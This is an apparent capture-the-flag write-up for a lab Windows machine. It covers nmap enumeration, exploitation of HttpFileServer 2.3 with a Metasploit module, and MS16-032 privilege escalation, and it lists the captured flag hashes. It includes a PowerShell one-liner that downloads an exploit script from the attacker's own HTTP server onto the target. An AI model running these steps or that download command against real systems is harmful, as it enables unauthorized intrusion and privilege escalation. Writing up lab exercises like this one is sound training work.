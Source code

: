 ### [ENUMERATION]
     nmap -vvvvv -A -sVT 10.10.10.8 -Pn

    PORT   STATE SERVICE REASON  VERSION
    80/tcp open  http    syn-ack HttpFileServer httpd 2.3
    |_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
    | http-methods: 
    |_  Supported Methods: GET HEAD POST
    |_http-server-header: HFS 2.3
    |_http-title: HFS /
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

### [EXPLOIT]
      search for httpfileserver 2.3 on metasploit 
      exploit(windows/http/rejetto_hfs_exec) 
      set options and we're in
      OS Name:                   Microsoft Windows Server 2012 R2 Standard

      From meterpreter sessions we can see the user.txt.txt file and grab the hash
      whoami
      optimum\kostas
      administrator access is denied so we need to priv esc 

### [PRIV ESC]
      #Google says MS16-032 so we're gonna use server 2012 R2 exploit and pull a file off local http server

      powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.19:8000/MS16-032.ps1', 'c:\Users\Public\Downloads\yeet.ps1')"
      #was not able to execute 


      #When looking for MS16-032 I found a metasploit module named 
      windows/local/ms16_032_secondary_logon_handle_privesc
      #Set the target to the version associated with the tasklist command which was x64
      #changed the lport/lhost to match and a root shell was obtained


### [HASH]
    d0c39409d7b994a9a1389ebf38ef5f73 C:\users\kostas\Desktop\user.txt.txt
    51ed1b36553c8461f4552c2e92b3eeed C:\users\administrator\root.txt
